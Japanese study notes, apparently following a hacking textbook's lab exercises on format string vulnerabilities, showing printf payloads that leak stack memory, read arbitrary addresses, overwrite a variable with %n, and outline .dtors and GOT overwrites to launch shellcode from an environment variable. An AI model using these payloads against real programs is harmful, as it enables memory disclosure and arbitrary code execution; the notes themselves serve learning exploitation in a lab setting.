


# フォーマットパラメータ

| param | 型      | 出力                       |
| ----- | ------- | -------------------------- |
| `%d`  | value   | 10進数                     |
| `%u`  | value   | 符号なし10進数             |
| `%x`  | value   | 16進数                     |
| `%s`  | pointer | 文字列                     |
| `%n`  | pointer | ここまでに出力したバイト数 |

```c
printf("A is %d and is at %08x.  B is %x.\n", A, &A, B);
```

の場合は，以下のようになる(`↑`に伸びる)



では，引数が一個減った際の出力は一体なんなのか．

macの場合

```sh
./fmt_uncommon2
# The number of bytes written up to this point X is being stored in count_one, and the number of bytes up to here X is being stored in count_two.
# count_one: 46
# count_two: 113
# A is 5 and is at ea35c3b8.  B is 16e00000.
```

例では，`b7fd6ff4`であった．

## printf(string)

このファイルに対して，`./fmt_vuln %x`とすると，スタック上の4バイトの値が出力される．

`./fmt_vuln $(perl -e 'print "%08x"x40')`

```sh
./fmt_vuln $(perl -e 'print "%08x."x40')
ユーザによって入力されたテキストを出力する正しい方法：
# %08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x
# ユーザによって入力されたテキストを出力する誤った方法：
# 02297260965fd8c09652a50496602500965bae8006b605289662f9f0783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302578383025783830257838302506b6020000000007966074f0000000079662f9f096612754000000009661357806b6017096459350000000000000000006b601f0
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

## 任意のアドレスから読み込み

```sh
 ./getenvaddr PATH ./fmt_vuln
# PATH will be at 0x7fffc1845f92
./fmt_vuln AAAA%08x.%08x.%08x.%08x
# ユーザによって入力されたテキストを出力する正しい方法：
# AAAA%08x.%08x.%08x.%08x
# ユーザによって入力されたテキストを出力する誤った方法：
# AAAA01897260.d70a18c0.d6fce504.d70a6500
# [*] test_val @ 0x00404050 = -72 0xffffffb8
./fmt_vuln AAAA%08x.%08x.%08x.%s
# ユーザによって入力されたテキストを出力する正しい方法：
# AAAA%08x.%08x.%08x.%s
# ユーザによって入力されたテキストを出力する誤った方法：
# AAAA01721260.2112e8c0.2105b504.
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

```sh
./fmt_vuln $(printf "\x92\x7f\x74\x12\xfe\x7f\x00\x00")%08x.%08x.%08x.%s
```

## 値の上書き

```sh
./fmt_vuln aiueo
# ユーザによって入力されたテキストを出力する正しい方法：
# aiueo
# ユーザによって入力されたテキストを出力する誤った方法：
# aiueo
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```

`00404050`ここにあるため，ここからペイロードを作成．`\x50\x40\x40\x00`

```sh
./fmt_vuln $(printf "\x50\x40\x40\x00")%x%x%x%n
# bash: warning: command substitution: ignored null byte in input
# ユーザによって入力されたテキストを出力する正しい方法：
# P@@%x%x%x%n
# ユーザによって入力されたテキストを出力する誤った方法：
# P@@1ea2260e7ad48c0e7a01504
# [*] test_val @ 0x00404050 = -72 0xffffffb8
```



## ダイレクトパラメータアクセス

>「ダイレクトパラメータアクセス」という $ 記号を使用する機能を使えば、 引数に直接アクセスすることが可能になる

```c
printf("7番目:%7$d, 4番目:%4$05d\n", 10, 20, 30, 40, 50, 60, 70, 80);
// 7番目:70, 4番目:00040
```

## ショートライトを使用する

2Byte書き込むもの．（printfにおいては，`h`修飾子で使える．）

## .dtors を狙った攻撃

Cにおけるデストラクタ．

`dtors_sample.c`にある．これ知らなかった

```sh
nm ./dtors_sample
# 0000000000403e20 d _DYNAMIC
# 0000000000404000 d _GLOBAL_OFFSET_TABLE_
# 0000000000402000 R _IO_stdin_used
# 0000000000402214 r __FRAME_END__
# 00000000004020b0 r __GNU_EH_FRAME_HDR
# 0000000000404038 D __TMC_END__
# 0000000000404038 B __bss_start
# 0000000000404028 D __data_start
# 0000000000401100 t __do_global_dtors_aux
# 0000000000403e10 t __do_global_dtors_aux_fini_array_entry
# 0000000000404030 D __dso_handle
# 0000000000403e08 t __frame_dummy_init_array_entry
#                  w __gmon_start__
# 0000000000403e10 t __init_array_end
# 0000000000403e08 t __init_array_start
# 00000000004011d0 T __libc_csu_fini
# 0000000000401170 T __libc_csu_init
#                  U __libc_start_main@@GLIBC_2.2.5
# 0000000000401080 T _dl_relocate_static_pie
# 0000000000404038 D _edata
# 0000000000404040 B _end
# 00000000004011d4 T _fini
# 0000000000401000 T _init
# 0000000000401050 T _start
# 0000000000401158 t cleanup
# 0000000000404038 b completed.7325
# 0000000000404028 W data_start
# 0000000000401090 t deregister_tm_clones
#                  U exit@@GLIBC_2.2.5
# 0000000000401130 t frame_dummy
# 0000000000401132 T main
#                  U puts@@GLIBC_2.2.5
# 00000000004010c0 t register_tm_clones
```

なかったように見えたが，この領域が書き込み可能らしい．

しかも毎回ここは呼ばれるため，

```sh
reader@hacking:~/booksrc $ export SHELLCODE=$(cat shellcode.bin)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./fmt_vuln
# SHELLCODE : 0xbffff9ec
```

このように環境変数を埋め込んだ上でこのセクションに出力されたアドレスを書き込むと，シェルが起動できてしまう．

## notesearch のさらなる脆弱性

## グローバルオフセットテーブル(GOT)の上書き

PLT，ライブラリが動的に呼ばれる時のやつ．

```
080482f8 <printf@plt>:
80482f8: 80482fe: 8048303:
ff 25 80 97 04 08 68 18 00 00 00
e9 b0 ff ff ff
jmp *0x8049780
push $0x18
jmp 80482b8 <_init+0x18>
```

あとは口頭で
